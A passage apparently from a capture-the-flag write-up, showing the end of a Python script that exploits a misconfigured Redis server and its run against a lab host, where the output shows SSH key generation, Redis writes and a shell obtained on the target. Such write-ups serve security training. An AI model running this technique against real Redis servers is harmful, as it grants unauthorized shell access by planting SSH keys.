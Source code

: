       except:
        print "Something went wrong"
    else:
      print colored("\tRedis-cli:::::This utility is not present on your system. You need to install it to proceed further.", "red")

Running this script will give us a shell as redis.

    :::text
    python redis.py 10.10.10.160 redis
      *******************************************************************
      * [+] [Exploit] Exploiting misconfigured REDIS SERVER*
      * [+] AVINASH KUMAR THAPA aka "-Acid"
      *******************************************************************


      SSH Keys Need to be Generated
    Generating public/private rsa key pair.
    Enter file in which to save the key (/root/.ssh/id_rsa):
    /root/.ssh/id_rsa already exists.
    Overwrite (y/n)? y
    Enter passphrase (empty for no passphrase):
    Enter same passphrase again:
    Your identification has been saved in /root/.ssh/id_rsa.
    Your public key has been saved in /root/.ssh/id_rsa.pub.
    The key fingerprint is:
    SHA256:AXkEW81gyz1YrQfxEQw3t82W/NoAp6q8IdpYTPV8sN0 acid_creative
    The key's randomart image is:
    +---[RSA 3072]----+
    |      o+=++==..  |
    |      .*.=+oo+.+.|
    |      ..* +oo oo+|
    |       . +.=.= ..|
    |      . S +.+ E .|
    |     o     o   + |
    |      + . .   . .|
    |     = o o       |
    |    o . +.       |
    +----[SHA256]-----+
      Keys Generated Successfully
    OK
    OK
    OK
    OK
    OK
    OK
      You'll get shell in sometime..Thanks for your patience
    Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)
